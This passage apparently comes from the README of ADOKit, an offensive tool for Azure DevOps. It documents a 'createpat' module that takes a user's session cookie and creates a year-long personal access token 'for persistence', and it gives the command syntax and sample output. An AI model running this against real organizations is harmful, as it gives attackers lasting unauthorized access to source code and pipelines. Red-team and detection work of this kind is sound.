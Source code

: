 ```


-----------SNIP-----------

[*] Match count : 9
```


### Create PAT

#### Use Case

> *Create a personal access token (PAT) for a user that can be used for persistence to an Azure DevOps instance.*

#### Syntax

Provide the `createpat` module, along with any relevant authentication information and URL. This will output the PAT ID, name, scope, date valid til, and token content for the PAT created. The name of the PAT created will be `ADOKit-` followed by a random string of 8 characters. The date the PAT is valid until will be 1 year from the date of creation, as that is the maximum that Azure DevOps allows.

`ADOKit.exe createpat /credential:"UserAuthentication=ABC123" /url:https://dev.azure.com/organizationName`

#### Example Output

```
C:\>ADOKit.exe createpat /credential:UserAuthentication=ABC123 /url:https://dev.azure.com/YourOrganization

==================================================
Module:         createpat
Auth Type:      Cookie
Search Term:
Target URL:     https://dev.azure.com/YourOrganization

Timestamp:      3/31/2023 2:33:09 PM
==================================================


[*] INFO: Checking credentials provided

[+] SUCCESS: Credentials provided are VALID.

                                  PAT ID |                           Name |                          Scope |                    Valid Until |                                        Token Value
------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------
    8776252f-9e03-48ea-a85c-f880cc830898 |                       ADOKit-rJxzpZwZ |                      app_token |          3/31/2024 12:00:00 AM | tokenValueWouldBeHere

3/31/23 18:33:10 Finished execution of createpat

```
